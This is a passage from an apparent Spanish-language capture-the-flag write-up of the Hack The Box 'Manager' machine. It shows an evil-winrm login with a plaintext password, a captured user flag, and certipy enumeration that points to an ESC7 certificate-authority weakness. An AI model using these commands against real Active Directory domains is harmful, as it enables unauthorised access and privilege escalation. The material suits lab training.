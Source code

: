 ```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager]
└─# evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Raven\Desktop> dir

    Directory: C:\Users\Raven\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         3/4/2024  11:45 PM             34 user.txt

*Evil-WinRM* PS C:\Users\Raven\Desktop> cat user.txt
d39637f5235d3f417ba6d0f15deb6e2d
*Evil-WinRM* PS C:\Users\Raven\Desktop> 
```

Después de realizar varias enumeraciones y con la ayuda de la guía  [GOAD - part 6 - ADCS](https://mayfly277.github.io/posts/GOADv2-pwning-part6/){:target="_blank"} se evidencia que el sistema puede ser vulnerable a ESC7.

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager/certipy]
└─# certipy-ad find -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -dc-ip 10.10.11.236 -stdout
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
```